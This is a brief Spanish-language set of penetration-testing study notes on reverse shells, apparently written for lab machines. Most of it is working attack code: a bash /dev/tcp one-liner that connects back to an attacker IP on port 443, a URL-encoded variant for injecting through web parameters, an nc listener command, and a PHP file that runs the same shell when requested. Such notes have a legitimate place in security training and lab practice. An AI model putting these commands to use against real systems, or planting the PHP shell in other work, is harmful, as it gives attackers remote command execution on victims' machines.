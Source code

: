 #revershell 

---------

Una **reverse shell** sirve para que un atacante obtenga acceso remoto a una máquina víctima.  
La víctima inicia la conexión hacia el atacante, lo que **evade firewalls o NAT**, y le da al atacante una shell para ejecutar comandos remotamente.

--------

[Articulo con one liners que dan sirven para tirar la reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[Otro articulo de revershell en este saque de groovy](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
El one liner que mas vamos a usar
```
bash -c 'bash -i >& /dev/tcp/IpNuestra/Puerto 0>&1'
Ejemplo: bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'
```

Aveces tenemos que probar poner los & directamente con url enconde por que se pueden mal interpretar con el codigo
```
bash -c 'bash -i >%26 /dev/tcp/IpNuestra/Puerto 0>%261'
Ejemplo: bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/443 0>%261'
```

Mientras tenemos que estar en escucha con [[nc -nlvp 443]]



------
# Desde un archivo .php
Creamos el archivo shell.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```
